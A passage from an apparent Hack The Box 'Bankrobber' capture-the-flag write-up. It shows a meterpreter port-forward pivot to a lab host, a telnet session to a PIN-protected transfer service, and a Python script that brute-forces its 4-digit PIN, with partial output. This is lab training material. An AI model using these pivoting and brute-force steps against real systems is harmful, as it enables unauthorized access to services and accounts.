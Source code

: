 
2. We can't download and investigate the file, so instead we setup portforwarding to reach the service locally.

    meterpreter > portfwd add -l 910 -p 910 -r 10.10.10.154
      [*] Local TCP relay created: :910 <-> 10.10.10.154:910

    root@p3:/opt/htb/machines/bankrobber# telnet 127.0.0.1 910
      Trying 127.0.0.1...
      Connected to 127.0.0.1.
      Escape character is '^]'.
       --------------------------------------------------------------
       Internet E-Coin Transfer System
       International Bank of Sun church
                                              v0.1 by Gio & Cneeliz
       --------------------------------------------------------------
       Please enter your super secret 4 digit PIN code to login:
       [$] 1111
       [!] Access denied, disconnecting client....


    Instead of enumerating the PIN Code manually we write a simple python brute force script.
    After a lot of trial and error, the is the script I came up with that gave the correct PIN:

      import telnetlib
      from time import sleep

      def main():
          host = 'localhost'
          port = 910
          for i in range(0000,9999):
              connection = telnetlib.Telnet(host,port)
              response = connection.read_until('[$] ')
              print response
              pin = format(i,'04d')
              commandstr = pin + '\n'
              print ' Trying PIN: ' + commandstr
              connection.write(commandstr)
              sleep(2)
              response_str = connection.read_until('\n')
              if("[!] Access denied, disconnecting client...." in response_str):
                  print " Wrong PIN, trying next one!"
                  continue
              else:
                  print " PIN Found!"
                  print response_str
                  print " ### Final PIN: " + format(i,'04d') + " ###"
                  break
          return

      if __name__ == '__main__':
          main()


    root@p3:/opt/htb/machines/bankrobber# brute-pin.py
      --------------------------------------------------------------
      Internet E-Coin Transfer System
      International Bank of Sun church
                                             v0.1 by Gio & Cneeliz
      --------------------------------------------------------------
      Please enter your super secret 4 digit PIN code to login:
      [$]
      Trying PIN: 0021

